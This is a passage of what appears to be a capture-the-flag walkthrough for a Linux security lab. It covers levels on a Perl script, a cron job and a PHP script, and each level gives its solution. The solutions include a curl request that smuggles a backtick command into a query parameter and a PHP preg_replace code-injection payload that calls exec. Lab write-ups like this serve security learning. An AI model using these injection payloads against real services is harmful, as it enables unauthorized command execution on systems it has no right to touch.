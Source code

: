 
## ![Perl Script](https://img.shields.io/badge/Level-4-red) Perl Script Exploit

![Perl Script](https://img.shields.io/badge/Perl%20Exploit-Script-red?style=for-the-badge&logo=perl)

**Description:** Exploit a Perl script running on a specific port to extract the flag. This level tests your understanding of web vulnerabilities and Perl scripting.

**Steps:**
1. **Send a Crafted Request:**
   Use the following command to exploit the Perl script:
   ```sh
   curl localhost:4747?x=`getflag`
   ```

**Interesting Fact:** Perl is known for its text processing capabilities and is often used for web development, system administration, and network programming.

---

## ![Crontab](https://img.shields.io/badge/Level-5-purple) Crontab Flag

![Crontab](https://img.shields.io/badge/Scheduled%20Task-Crontab-purple?style=for-the-badge&logo=clock)

**Description:** Capture a flag generated by a cron job that runs every two minutes. This level highlights the importance of understanding and monitoring cron jobs.

**Steps:**
1. **Monitor the /tmp Directory:**
   Quickly access the flag file created by the cron job:
   ```sh
   cat /tmp/coucou.txt
   ```

**Interesting Fact:** Cron jobs are scheduled tasks in Unix-like operating systems that run automatically at specified intervals. They are commonly used for system maintenance and administration.

---

## ![PHP Exploit](https://img.shields.io/badge/Level-6-pink) PHP Exploit

![PHP Exploit](https://img.shields.io/badge/PHP%20Exploit-preg_replace-pink?style=for-the-badge&logo=php)

**Description:** Exploit a vulnerability in a PHP script to execute commands and retrieve the flag. This level focuses on PHP security and the dangers of improper input handling.

**Steps:**
1. **Use preg_replace with \e Modifier:**
   Inject the following code to execute `getflag`:
   ```php
   [x ${(exec(getflag))} ]
   ```
